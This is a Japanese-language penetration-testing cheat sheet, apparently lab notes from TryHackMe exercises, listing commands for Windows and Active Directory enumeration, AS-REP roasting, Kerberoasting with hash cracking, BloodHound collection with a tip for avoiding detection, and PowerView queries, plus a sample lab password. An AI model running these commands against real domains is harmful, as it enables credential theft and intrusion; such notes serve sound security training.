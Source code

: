 # 列挙（Windows）

## Kerberos

ユーザー名列挙

```shell
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@$TARGET
```

ユーザー名のリスト（ドメインは含まない）を作り、AS-REP Roasting 攻撃でハッシュを取得。  
※ Pre-authentication を無効にしているユーザーが存在する場合に限り、ハッシュを取得できる。

```shell
python3 /opt/impacket/examples/GetNPUsers.py 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip $TARGET
```

いずれか 1 つのアカウントを侵害できたらケルベロースティング。

```shell
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py 'domain/name:passwd' -outputfile keberoast.hash -dc-ip $TARGET
```

ハッシュの種類を特定。  
hashcat の番号も表示してくれるので、hashcat でパスワードをクラック。

```shell
name-that-hash -f hash.txt
```

## システム

```ps
systeminfo

# インストールされたアップデート
wmic qfe get Caption,Description

# 開始されたサービス
net start

# インストールされているアプリ
wmic product get name,version,vendor
```

## ユーザー

```ps
# 自分の権限
whoami /priv

# 属しているグループ
whoami /groups

# IL
whoami /groups | find "Label"

# 他のユーザーを表示
net user

# 使用可能なグループ
net localgroup

# ローカル管理者グループに属するユーザー
net localgroup administrators

# マシンのローカル設定
net accounts
# ドメインに属している場合
net accounts /domain
```

## ネットワーク

```ps
ipconfig

netstat -abno

arp -a
```

## SMB

```ps
# 共有フォルダ
net share
```

## BloodHound

Windows

```sh
.\SharpHound.exe --CollectionMethods All --Domain tryhackme.loc --ExcludeDCs
```

--ExcludeDCs は DC を除外し、検出リスクを下げる。

Linux

```sh
bloodhound-python -u asrepuser1 -p qwerty123! -d tryhackme.loc -ns 10.211.12.10 -c All --zip
```

## ActiveDirectory モジュールによる列挙

ドメインコントローラには入っているが、その他はダウンロードが必要。

```ps
Import-Module ActiveDirectory

Get-ADUser -Filter *
Get-ADUser -Identity Administrator -Properties LastLogonDate,MemberOf,Title,Description,PwdLastSet

Get-ADGroup -Filter * | Select Name

Get-ADComputer -Filter *

Get-ADDefaultDomainPasswordPolicy
```

## PowerView による列挙

ダウンロードが必要

```ps
PowerSploit-master\Recon> Import-Module .\PowerView.ps1

Get-DomainUser

Get-DomainUser *admin*
Get-DomainGroup "*admin*"
Get-DomainComputer
```
